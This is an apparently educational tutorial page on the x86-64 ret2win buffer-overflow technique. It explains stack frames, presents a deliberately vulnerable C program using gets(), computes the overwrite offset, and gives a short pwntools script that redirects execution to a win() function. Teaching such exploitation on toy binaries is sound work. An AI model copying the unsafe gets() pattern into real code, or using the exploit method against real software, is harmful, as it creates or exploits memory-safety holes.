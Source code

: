 ```yaml
---
title: Return2Win Technique
date: 0006-01-01T00:00:07Z
draft: false
description: nil
toc: false
---
```


## Prologue

**Recap:**

> RIP is the instruction pointer which is a 64-bit register that holds the memory address of the instruction to be executed next.

> Stack grows downwards. Newly popped data will be at lower addresses.
Simply put, a stack is a tower but upside down :p

> Each function has its own stack layout, denominated by rbp (base pointer) and rsp (stack pointer).

<br>

In order to understand how to ret2win, we have to learn more about what the stack layout as well as what happens behind the scenes when functions are called.

Let's consider this C program;

```c
#include <stdio.h>

int win() {
  printf("you can't call me ;)")
}

int vuln() {
    char name[10];

    gets(&name);
    return 0;
}

int main() {
    vuln();
    return 0;
}

```

When `vuln()` is called, we know that it calls `printf()` and returns to `main()`.

However, how does the program go back to main afterwards?

How does the program know where it was at in `main()` before the call?

Well before, `vuln()` is actually called, our `RIP` containing the address of the next instruction in `main()` will be saved on the stack.

This is known as the return address as when `vuln()` returns, the stack for the current function _(denominated by rbp and rsp)_ will be 'demolished', program will pop the return address from the stack.

When vuln is called, our `main()` stack layout will be saved, and a new stack will be 'created' for the `vuln()` function, even though it may not use the stack at all!

As you can see, we will save our `RBP`, then our `RIP`, before building our `vuln()` stack, if we need one at all.

![image](/pwn/images/x64_frame_nonleaf.png)

<br>

## Return 2 Win Theory

Since we know that our return address is actually saved on the stack and that `vuln()` will return to the return address, which **should** be at `main()`.

However, can we call `win()`, even though `win()` was not called at all in this entire program?

Consider our stack layout and the following terminating instructions of a function:

```asm
0x555555555153 <vuln+30>                  leave
0x555555555154 <vuln+31>                  ret <0x555555555163; main+14>
 ↓
0x555555555163 <main+14>                  mov    eax, 0


```

| :------------- |
|      ...       |
| :------------- |
| return address |
| :------------- |
|   saved rbp    | <- rbp
| :------------- |
|    name[10]    | <- rsp
| :------------- |


As shown above, when a function ends, it calls `leave` which 'destroys' the current stack frame of the function and restores our `main()` stack frame. We are left with;

| :------------- |
|      ...       |
| :------------- |
| return address | <- rsp
| :------------- |

And when `ret` aka `return` is called, the return address **or** `saved rip` is restored into the `rip`.

The `rip` will now be at `<main+14>` which was the next instruction after `vuln()` was called from `main()`.

If we could possibly overwrite the return address, we could possibly make our program return to any function we want.

Let's try it out!

<br>

## Exploiting our C program

```c
// gcc -no-pie win.c -o win
#include <stdio.h>

int win() {
  printf("you can't call me ;)")
}

int vuln() {
    char name[10];

    gets(&name);
    return 0;
}

int main() {
    vuln();
    return 0;
}

```

We will compile this without **PIE**.

`gets()` may seem unfamiliar to you, but let's look at it's documentation.

> The C library function char *gets(char *str) reads a line from stdin and stores it into the string pointed to by str. It stops when either the newline character is read or when the end-of-file is reached, whichever comes first.

Wow! This means that we have an unlimited input size, up till a newline character.

This gives us a buffer overflow, and we will try to overwrite the return address to call `win()`.

Let's first find `win()` function. We can do that in `GDB` or with `nm` which is a handy tool to list a program symbols.

```
➜ nm win | grep win
0000000000401132 T win
```

As we can see, our win is at `0x401132`.

Now let's calculate our offset. We will firstly calculate our offset with our theory. Consider the stack at the point of our input.

| :------------- |
|      ...       |
| :------------- |
| return address |
| :------------- |
|   saved rbp    |  <- rbp |
| :------------- |
|    name[10]    |  <- rsp |
| :------------- |

If we do `file win` or `checksec win`, we can see that it is a 64-bit binary.

This means that our addresses are stored as `64/8 = 8` bytes.

This means `saved rbp` is 8 bytes.

In order to overflow name and reach return address, we have to fill up a buffer of `10 (name) + 8 (rbp) = 18` bytes.

Hence our offset is 18.

Alternatively, we can send a de brujin sequence and see where our program tries to return to in gdb.

When sending `1111222233334444555566667777888899990000` as an input, our program segfaults as there is our return address is overwritten with random values that probably do not exist in the program.

```
► 0x401164 <vuln+31>    ret    <0x3737363636363535> # aka 77666655
```

As we recall, integers are stored in little-endian in a binary, this is the same for addresses. Hence, the address it tries to return to is in reverse order.

With some simple math, we can calculate our offset.

``4*4 + 2 = 18``

Putting all the pieces together, we can craft our exploit script.

```py
from pwn import * # import pwntools library

p = process('./win') # start porcess

WINADDRESS = 0x401132 # win address

p.sendline(b"A"*18 + p64(WINADDRESS)) # send input to process, with address in 64-bit little endian
p.interactive() # control process manually
```

Try it out and it should print `"You can't call me!"`.

<br>

---

## Practices

_coming soon..._

<br><br>

---

<div style="text-align: right"> <a href="/pwn/rop/whatisrop">Chapter 5: Introduction to Return Oriented Programming (ROP)</a> </div>
